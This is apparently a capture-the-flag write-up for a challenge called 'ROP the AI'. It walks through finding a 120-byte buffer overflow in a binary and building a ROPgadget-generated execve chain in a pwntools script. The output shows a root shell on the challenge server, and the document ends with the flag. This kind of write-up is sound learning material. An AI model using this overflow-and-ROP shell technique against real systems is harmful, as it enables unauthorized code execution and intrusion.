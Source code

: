 # ROP the AI
easy | linux, exploit | 100 points

## Description
We managed to take back this configuration manager from the AI. However, we are unsure if the AI has tinkered with it somehow. Can you help us discover any vulnerabilities in the program and, if you find any, exploit them as proof of your work? 

## First Impressions
The title pretty much gives the solution away. ROP or [Return Oriented Programming](https://en.wikipedia.org/wiki/Return-oriented_programming) starts off with a buffer overflow, but since the program stack may not allow execution of code, you use existing instructions in the program to execute your command. These set of instructions are called "gadgets". 

It's a concept I've generally been intimidated to learn as I find lower level code a bit intimidating in general. However, I finally decided to give it a shot through this challenge.

The challenge came with a binary file, `ROP-the-AI`, and a remote server, where we could send our exploit and get the flag.

```bash
$ file ROP-the-AI
ROP-the-AI: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=d36ba5c3974bde56b5f87c81775763923b71026c, for GNU/Linux 3.2.0, not stripped
$ ./ROP-the-AI
Please enter your preferred configuration:
a
Configuration set to a.
```

On opening the file in a reverse-engineering tool (Binary Ninja in this case), I found main(), which calls vuln().

![](images/rta-code.png)

I figured that var_78 (user input) was prone to a buffer overflow attack, but I needed to look at some tutorials for what payload to overflow the buffer with. This meant:
- finding out the point at which the buffer overflows
- knowing what payload to enter as input 

## Solution

After some manual testing, I found the buffer overflow taking place at 120 bytes.

For the ROP part of the challenge, I tried to follow two tutorials ([here](https://www.youtube.com/watch?v=i5-cWI_HV8o) and [here](https://www.youtube.com/watch?v=TOImpHQvmpo) if you're interested in watching). However, either they didn't work as intended or I got impatient and stopped halfway through. I grapsed the basic idea, but was struggling to apply to this challenge. Surely a topic I would like to learn about further.

However, watching them did help, as through one of the tutorials, I found a tool called [ROPgadget](https://github.com/JonathanSalwan/ROPgadget). While I used this initially to list out the gadgets, I found out that it also automates the ROP chain creation process! The tool finds the ROP gadgets, finds a way to execute a shell using the gadgets and prints out the corresponding python code that the user can then use in their script.

So with this information, I ran ROPgadget and created a Python script using [pwntools](https://github.com/Gallopsled/pwntools) and the code provided by ROPgadget. The tutorials also proved helpful in the creation of the script.

```bash
$ python3 ROPgadget --binary ROP-the-AI --rop-chain
...
Unique gadgets found: 37035

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x44dbc1 mov qword ptr [rsi], rax ; ret
	[+] Gadget found: 0x4087ce pop rsi ; ret
	[+] Gadget found: 0x44c043 pop rax ; ret
	[+] Gadget found: 0x43c165 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x43c165 xor rax, rax ; ret
	[+] Gadget found: 0x46da90 add rax, 1 ; ret
	[+] Gadget found: 0x46da91 add eax, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x401931 pop rdi ; ret
	[+] Gadget found: 0x4087ce pop rsi ; ret
	[+] Gadget found: 0x4016eb pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x4011fa syscall

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget
<more python code>
...
```

**[rta-sol.py](src/rta-sol.py)**
```python
#!/usr/bin/env python3
# execve generated by ROPgadget

from pwn import *
from struct import pack

# Padding goes here
rop = b''

rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e0) # @ .data
rop += pack('<Q', 0x000000000044c043) # pop rax ; ret
rop += b'/bin//sh'
rop += pack('<Q', 0x000000000044dbc1) # mov qword ptr [rsi], rax ; ret
rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x000000000043c165) # xor rax, rax ; ret
rop += pack('<Q', 0x000000000044dbc1) # mov qword ptr [rsi], rax ; ret
rop += pack('<Q', 0x0000000000401931) # pop rdi ; ret
rop += pack('<Q', 0x00000000004b50e0) # @ .data
rop += pack('<Q', 0x00000000004087ce) # pop rsi ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x00000000004016eb) # pop rdx ; ret
rop += pack('<Q', 0x00000000004b50e8) # @ .data + 8
rop += pack('<Q', 0x000000000043c165) # xor rax, rax ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x000000000046da90) # add rax, 1 ; ret
rop += pack('<Q', 0x00000000004011fa) # syscall

p = remote('portal.hackazon.org', 17007)
payload = b'A'*120 + rop

payload = payload.ljust(1000, b'\x00')

p.sendline(payload)

p.interactive()
```

```bash
$ python3 rta-sol.py
$ python3 sol.py
[+] Opening connection to portal.hackazon.org on port 17007: Done
[*] Switching to interactive mode
Please enter your preferred configuration:
Configuration set to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA·@.
$ whoami
root
$ ls
bin    dev      home     lib64     mnt       proc  sbin  tmp
binary    etc      lib     libx32  nw_ready  root  srv   usr
boot    flag.txt  lib32  media     opt       run     sys   var
$ cat flag.txt
CTF{80b40aac6d527b084665bbd5ea3a0f68}
$
[*] Interrupted
[*] Closed connection to portal.hackazon.org port 17007
```

Flag: `CTF{80b40aac6d527b084665bbd5ea3a0f68}`


